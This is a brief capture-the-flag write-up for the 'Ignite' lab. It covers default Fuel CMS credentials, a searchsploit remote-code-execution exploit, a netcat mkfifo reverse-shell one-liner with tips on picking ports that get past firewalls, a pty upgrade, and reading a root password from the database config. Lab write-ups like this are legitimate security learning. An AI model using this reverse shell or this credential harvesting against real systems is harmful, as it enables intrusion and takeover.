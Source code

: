 # Ignite

* We find in *robots.txt* the /fuel file
* On the main page we find that the user and pass for the login are *admin* and *admin*
* Using *seachsploit* we find one that gives the attacker RCE once authentificated
* Running the .py exploit and modifying it a bit to run with python3 we get a weird shell
* We can serve ourserves a netcat reverse shell with the following payload from PayloadsAllTheThings
* The port should be something like 80 or 443 or 53(DNS port), so it won't be blocked by the firewall
```bash
# using the exploit's shell
cmd: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```
```bash
# once a reverse shell is obtained
$ python -c 'import pty;pty.spawn("/bin/bash")'
```
* Once authentificated, we find the root password in a config file
* */var/www/html/fuel/application/config* -> the location of config files
```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ cat database.php
```
* This contains a password for root for the db, which is also the password on the system
